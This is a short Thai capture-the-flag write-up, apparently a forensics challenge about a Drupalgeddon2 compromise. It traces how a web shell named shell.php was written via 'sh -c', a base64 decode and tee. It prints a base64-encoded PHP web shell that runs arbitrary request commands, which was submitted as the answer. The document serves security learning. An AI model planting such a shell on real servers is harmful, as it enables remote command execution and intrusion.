แล้วผมก็ไปเจอ payload ที่ต้องการใน GitHub repo นี้ https://github.com/dreadlocked/Drupalgeddon2

![009e9bbcf298b2f7014a414d8d6b1e70.png](/resources/009e9bbcf298b2f7014a414d8d6b1e70.png)

เอา payload มา encode ด้วย base64 แล้วส่งคำตอบก็จะได้คะแนนมาครับ

```
PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9
```

**สำหรับคนที่มองหา intended way, เชิญทางนี้ครับ

![97d1f8149a242c116ed2814b870b9f62.png](/resources/97d1f8149a242c116ed2814b870b9f62.png)

ขั้นแรกเราต้องมองหาว่า `shell.php` ถูกสร้างมาตอนไหน ซึ่งตรงนั้นจะเห็นว่ามีการรัน `sh -c` ตามด้วย argument ที่เป็น hex ที่ `/var/www/html` แล้วหลังจากนั้นก็จะมีการรัน base64 decode แล้วสร้างไฟล์ `shell.php` ขึ้นมาด้วยการ pipe ด้วย `tee`

![8f7c0442d1a6291c5de921b3db81e6f7.png](/resources/8f7c0442d1a6291c5de921b3db81e6f7.png)
